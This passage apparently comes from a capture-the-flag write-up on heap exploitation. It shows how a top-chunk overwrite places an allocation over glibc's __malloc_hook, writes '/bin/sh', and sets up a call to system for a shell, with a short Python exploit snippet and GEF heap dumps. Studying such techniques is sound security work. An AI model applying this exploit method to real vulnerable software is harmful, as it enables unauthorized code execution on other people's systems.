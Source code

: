 A great target for our arbitrary write will be the address of the malloc hook; this is commonly used in heap and format string challenges, since if you write a function pointer here and trigger the malloc function, the function in the malloc hook will also be triggered. Typically a onegadget would be placed in the malloc hook, but there aren't any that ultimately work in this libc version. Fortunately, the arguments passed to malloc() are also passed to the function in the malloc hook, so we'll just make sure to obtain and pass an address to '/bin/sh' in the malloc call and place the address of system, helpfully leaked earlier, in the malloc hook.

When I make my next allocation, I will create a new chunk that can effectively be as large as I want. Since there are no remaining free chunks, chunks will be allocated in physically sequential order within the space of the heap, which the program now thinks extends well beyond the physical heap section's bounds. So, in order to set up an arbitrary write, I want that chunk to span from its starting point in the heap, which will be just after my 0x90-bytes long chunk, to just before my target area so that my next chunk ends up directly on top of the target. Specifically, the distance is calculated by subtracting the target address from the heap base, subtracting the size of the allocated chunk (0x90), subtract the additional 8 bytes between the heap base and the start of the first chunk, subtract a further 8 bytes for the chunk size metadata at the start of the new chunk, and then you'll want 0x8 or 0x10 bytes to finish a divisble by 0x10 chunk and account for the size metadata at the start of the new chunk.

I also write the string '/bin/sh' here; this way I have the string in a known address for use later. The new exploit code:
```
libc_base = system_libc - libc.symbols['system']
malloc_hook = libc_base + libc.symbols['__malloc_hook']
distance = malloc_hook - heap_base - 0x90 - 0x8 - 0x8 - 0x10
print(hex(malloc_hook))

malloc_chunk(distance, b'/bin/sh\x00')
```
And here is what the heap does with this addition. Note that the size of the top chunk comes in just before the malloc hook, and the next chunk allocation seems set to overwrite the malloc hook itself.
```
gef➤  x/30gx 0x1fe3000
0x1fe3000:      0x0000000000000000      0x0000000000000091
0x1fe3010:      0x6161616161616161      0x6161616161616161
0x1fe3020:      0x6161616161616161      0x6161616161616161
0x1fe3030:      0x6161616161616161      0x6161616161616161
0x1fe3040:      0x6161616161616161      0x6161616161616161
0x1fe3050:      0x6161616161616161      0x6161616161616161
0x1fe3060:      0x6161616161616161      0x6161616161616161
0x1fe3070:      0x6161616161616161      0x6161616161616161
0x1fe3080:      0x6161616161616161      0x6161616161616161
0x1fe3090:      0x6161616161616161      0x00007fec7a984b71
0x1fe30a0:      0x0068732f6e69622f      0x000000000000000a
0x1fe30b0:      0x0000000000000000      0x0000000000000000
0x1fe30c0:      0x0000000000000000      0x0000000000000000
0x1fe30d0:      0x0000000000000000      0x0000000000000000
0x1fe30e0:      0x0000000000000000      0x0000000000000000
gef➤  heap chunks
Chunk(addr=0x1fe3010, size=0x90, flags=PREV_INUSE)
    [0x0000000001fe3010     61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61    aaaaaaaaaaaaaaaa]
Chunk(addr=0x1fe30a0, size=0x7fec7a984b70, flags=PREV_INUSE)
    [0x0000000001fe30a0     2f 62 69 6e 2f 73 68 00 0a 00 00 00 00 00 00 00    /bin/sh.........]
Chunk(addr=0x7fec7c967c10, size=0xffff80138567b488, flags=PREV_INUSE)  ←  top chunk
gef➤  x/gx 0x7fec7c967c10
0x7fec7c967c10 <__malloc_hook>: 0x0000000000000000
gef➤  x/3gx 0x7fec7c967c00
0x7fec7c967c00 <__memalign_hook>:       0x00007fec7c638bd0      0xffff80138567b489
0x7fec7c967c10 <__malloc_hook>: 0x0000000000000000
```